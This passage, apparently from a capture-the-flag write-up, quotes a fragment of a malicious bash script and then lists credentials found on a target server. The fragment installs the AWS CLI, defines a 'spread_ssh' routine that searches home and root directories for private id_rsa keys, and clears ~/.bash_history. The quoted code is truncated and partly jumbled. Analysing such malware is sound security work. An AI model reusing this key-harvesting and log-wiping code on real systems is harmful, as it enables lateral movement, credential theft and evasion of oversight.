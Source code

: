 ```
                yum install unzip -y &> /dev/null
    elif [[ "$package" == "aws" ]]; then
        install_aws_cli
    fi
}

# Install AWS CLI locally
install_aws_cli() {
    mkdir -p "$HOME/.aws-cli"
    curl -s "https://awscli.amazonaws.com/awscli-exe-linux-x86_64.zip" -o "$HOME/.aws-cli/awscliv2.zip"

    unzip -q "$HOME/.aws-cli/awscliv2.zip" -d "$HOME/.aws-cli/"

    "$HOME/.aws-cli/aws/install" --install-dir "$HOME/.aws-cli/bin" --bin-dir "$HOME/.aws-cli/bin"

    # Add AWS CLI to PATH
    export PATH="$HOME/.aws-cli/bin:$PATH"
    echo 'export PATH="$HOME/.aws-cli/bin:$PATH"' >> "$HOME/.bashrc"
}


# Try to spread
spread_ssh() {
    find_and_execute() {
        local KEYS=$(find ~/ /root /home -maxdepth 5 -name 'id_rsa*' | grep -vw pub;
 spread_ssh
        cat /dev/null > ~/.bash_history
fi
```

Based on the file contents, we now had potentially valid credentials and IP address information for the FizzShadows server:
- **IP Address:** 34.118.239.100
- **Port:** 4444
- **Username:** FizzShadows_1
- **Password:** Gx27pQwz92Rk

I attempted to create a connection using the credentials but my attempts failed (if you find a method to do it, please let me know!). Since the machine didn't have `nmap` installed, the next technique that I tested was using `cURL` to determine if the IP address was hosting a web application:
